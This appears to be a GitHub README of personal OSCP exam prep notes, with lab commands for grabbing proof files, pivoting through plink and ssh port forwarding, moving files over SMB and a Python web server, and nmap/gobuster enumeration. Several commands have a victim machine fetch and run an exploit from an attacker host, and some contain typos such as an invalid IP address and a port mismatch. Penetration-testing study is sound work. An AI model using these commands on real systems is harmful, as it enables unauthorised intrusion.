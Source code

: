 # OSCP Prep Notes

Welcome to my learning notes for OSCP by OffensiveSecurity. I will update the metrials here during my 30 days course time.

## Taking Proof files

### Windows

```
hostname && whoami && type C:\Documents and Settings\Administrator\Desktop\proof.txt && ipconfig /all
```

### Linux

```
hostname && whoami && cat /root/proof.txt && /sbin/ifconfig
```

## Pivoting

### Windows

Find running service which are listening to loopback only (i.e., 127.0.0.1 or LISTENING/LISTEN in thier status):

```
netstat -ano
```

For example, if MySQL found listen locally on 3306 we can use plink.exe to prefrom port forward to our machine:

```
C:\Windows\Temp> plink.exe -l root -pw toor 192.168.0.101 -R 3306:127.0.0.1:3306
```

Then in kali you could interact with database locally:

```
root@kali:~/#: mysql -u root -p 
```

The plink.exe could be found here: https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

### Linux

Use Local port forwarding technqiue with ssh command to as following:

```
alice@vcitimmachine:~/#: ssh -L 3306:127.0.0.1:3306 root@192.168.0.101
```

There are many techniques such as Remote port forwarding, Dynamic port forwarding and SSHuttle tool which might be useful for some cases :)

## Transferring files

### Rdesktop

If if had a remote dektop machine I used the following command to mount share folder:

```
root@kali:~/#: rdesktop 192.268.11.10 -r disk:share=/home/bayo/store
```

### SMB Share

In kali use Impacket to create local SMB Share:

```
root@kali:~/#: python /usr/share/impacket/examples/smbserver.py MyShare /
```

On victim machine execute my payload via SMB:

```
C:\> \\192.168.11.10\MyShare\exploit_kernerl.exe
```
### Python Server

On my kali machine, start the Python SimpleHTTPServer on port 80:

```
root@kali:~/#: python -m SimpleHTTPServer 8080
```

Then use powershell on victim machine / wget in linux to download my exploit.

## Methodology

1) Ports & Services Enumeration using NMAP

```
root@kali:~/#: nmap -sV -sC -p- <IP>
root@kali:~/#: nmap -sU --top-ports=50 <IP>
root@kali:~/#: nmap --script smb-vuln-* <IP>
root@kali:~/#: nmap -sV -T4 -p- <IP> (Quick method)
```

2) Enumerate web application

```
root@kali:~/#: gobuster dir -u <url> -w /usr/share/wordlist/directory-2.3-meduim.txt
root@kali:~/#: nikito -u <url>
```

3) Post Exploition

After gaining inital acsses to shell and prompt TTY shell, then running one of the following script to enumrate:

Windows:

- Powerup - https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
- JAWS - https://github.com/411Hall/JAWS

Linux:

- LinEnum.sh - https://github.com/rebootuser/LinEnum
- LSE - https://github.com/diego-treitos/linux-smart-enumeration

If none of them works, move to manully search.

4) Priviliage esclation

Depend on the attack vector preform priviliage esclation.
